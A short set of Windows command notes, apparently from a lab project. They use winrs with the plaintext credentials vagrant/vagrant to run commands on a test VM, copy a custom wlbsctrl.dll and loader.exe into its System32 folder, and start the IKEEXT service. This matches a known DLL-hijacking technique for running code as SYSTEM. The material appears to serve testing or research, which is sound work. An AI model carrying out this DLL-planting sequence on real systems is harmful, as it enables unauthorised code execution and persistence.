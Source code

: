 winrs /r:http://192.168.29.133:5985  /u:vagrant /p:vagrant ipconfig
winrs /r:http://192.168.29.133:5985  /u:vagrant /p:vagrant net start ikeext
winrm set winrm/config/client @{TrustedHosts="192.168.29.133"}
copy build\wlbsctrl.dll \\192.168.29.133\c$\windows\system32

copy build\loader.exe \\192.168.29.133\c$\windows\system32


winrs /r:http://192.168.29.133:5985  /u:vagrant /p:vagrant cmd /c dir c:\

dumpbin /exports

https://learn.microsoft.com/en-us/cpp/build/reference/decorated-names?view=msvc-170